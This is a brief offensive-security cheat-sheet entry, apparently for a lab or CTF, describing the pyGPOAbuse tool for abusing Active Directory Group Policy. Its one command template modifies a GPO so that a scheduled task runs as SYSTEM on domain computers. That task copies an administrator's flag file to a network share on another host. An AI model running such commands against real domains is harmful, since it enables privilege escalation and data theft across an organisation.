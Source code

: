 # pyGPOAbuse

% Active directory, gpo 
#plateform/linux #target/remote #cat/POSTEXPLOIT/GPO  

## pyGPOAbuse - desc
```
modify an existing GPO that applies to one or more users & computers. It will create an immediate scheduled task as SYSTEM on the remote computer for computer GPO, or as logged in user for user GPO.
```

## pyGPOAbuse - repo
```
https://github.com/Hackndo/pyGPOAbuse
```

## pyGPOAbuse - doc
```
```

## pyGPOAbuse - install
```
```

## immadiat task for computer

```
pygpoabuse.py -gpo-id "gpo_id" -powershell -command 'cp C:\Users\Administrator\Desktop\flag.txt "\\sde01\shared\$($env:computername).txt"' -taskname "<task_name|t_jubeaz>" -description "pwn ta face" -f -dc-ip 172.19.99.10 <domain_fqdn>/<user>:<password>
```